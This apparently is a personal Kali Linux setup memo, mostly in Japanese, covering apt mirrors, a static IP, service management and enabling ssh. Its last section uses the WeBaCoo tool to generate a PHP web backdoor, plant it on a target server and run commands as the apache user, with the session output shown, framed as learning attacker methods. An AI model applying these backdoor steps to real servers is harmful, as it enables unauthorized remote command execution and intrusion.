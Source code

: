 #インストール

##メモ

- プロキシ環境に持っていってインストールをしない！！ (理由: 自宅に帰ってからパッケージを入れようとしてもみつけられなくなった...)

<br><br><br>

#インストール後にミラーを追加する

https://forums.kali.org/showthread.php?72-Adding-Mirrors-After-Install

###Adding Mirrors After Install

 
If you didn't have an active or reliable internet connection during a hard disk install, you probably didn't get the mirrors added at that time. This will cause issues in the future when seeking new or updated software packages from the Kali repos. 

To add the sources:

1. Use your favored text editor to open /etc/apt/sources.list

2. Add the following two lines to your source list:
deb http://http.kali.org/kali kali main non-free contrib
deb-src http://http.kali.org/kali kali main non-free contrib

3. Save and you're good to go!

You can check that the sources have been added and are being used by loading Add/Remove Software from the Sys Tools menu and selecting System -> Software Sources.


#静的 IP アドレス

```
root@localhost:~# cat /etc/network/interfaces
# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces(5).

source /etc/network/interfaces.d/*

# The loopback network interface
auto lo
iface lo inet loopback


auto eth0
iface eth0 inet static
address 192.168.141.153
netmask 255.255.255.0
gateway 192.168.141.2
dns-nameservers 192.168.141.2


root@localhost:~#

```

<br>
<br>
<br>

#controling services

##updating system.

```
# apt-get update
# apt-get upgrade
```

##show services.

```
# systemctl -t service
# systemctl -t service --all
```

##show status of service.

```
# systemctl is-enabled ssh
# systemctl is-enabled apache2
```

##show status of services.

- CentOS とかの chkconfig に相当

```
# sysv-rc-conf --list
```

##enabling or disabling services.

```
# sysv-rc-conf
```

```

l SysV Runlevel Config   -: stop service  =/+: start service  h: help  q: quit qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqk
x                                                                                                                         x
x service      1       2       3       4       5       0       6       S                                                  x
x ----------------------------------------------------------------------------                                            x
x anacron     [ ]     [X]     [X]     [X]     [X]     [ ]     [ ]     [ ]                                                 x
x apache2     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x arpwatch    [ ]     [X]     [X]     [X]     [X]     [ ]     [ ]     [ ]                                                 x
x atftpd      [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x avahi-dae$  [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x beef-xss    [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x binfmt-su$  [ ]     [X]     [X]     [X]     [X]     [ ]     [ ]     [ ]                                                 x
x bluetooth   [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x bootlogs    [X]     [X]     [X]     [X]     [X]     [ ]     [ ]     [ ]                                                 x
x                                                                                                                         x
mqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqj
lqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqk
x Use the arrow keys or mouse to move around.      ^n: next pg     ^p: prev pg                                            x
x                        space: toggle service on / off                                                                   x
mqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqj
```







##enabling service.

```
# systemctl enable ssh
# systemctl enable apache2
```

##starting/stoping service

````
# systemctl start ssh
# systemctl start apache2
```

<br>
<br>
<br>

#Kali Linux をインストールしたら

## ssh を使えるようにする

デフォルトでは ssh が起動していないため、```service ssh start``` する。なお、自動起動にするために ```systemctl enable ssh``` も。


<br>
<br>
<br>
#Webacoo

　ハッキングツール？ 攻撃者の手を知ることは重要。

##backdoor を作成する

```
$ webacoo -g -o backdoor.php

        WeBaCoo 0.2.3 - Web Backdoor Cookie Script-Kit
        Copyright (C) 2011-2012 Anestis Bechtsoudis
        { @anestisb | anestis@bechtsoudis.com | http(s)://bechtsoudis.com }

[+] Backdoor file "backdoor.php" created.

$ ls
backdoor.php
```

##backdoor.php を仕掛ける

　対象のサーバーに backdoor.php を配置する。たとえば ```/var/www/html/backdoor.php``` のように配置。

##Cracking

　backdoor.php にアクセス。apache ユーザーでコマンドを実行できるようになる。
　
```
$ webacoo -t -u http://192.168.yyy.zzz/backdoor.php

        WeBaCoo 0.2.3 - Web Backdoor Cookie Script-Kit
        Copyright (C) 2011-2012 Anestis Bechtsoudis
        { @anestisb | anestis@bechtsoudis.com | http(s)://bechtsoudis.com }

[+] Connecting to remote server as...
uid=48(apache) gid=48(apache) groups=48(apache) context=unconfined_u:system_r:httpd_t:s0

[*] Type 'load' to use an extension module.
[*] Type ':<cmd>' to run local OS commands.
[*] Type 'exit' to quit terminal.

webacoo$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=unconfined_u:system_r:httpd_t:s0
webacoo$ pwd
/var/www/html
webacoo$ ls -lF
total 8
-rw-r--r--. 1 root root 576 Aug 23 00:14 backdoor.php
-rw-r--r--. 1 root root   2 Aug 23 00:18 index.html
webacoo$
```

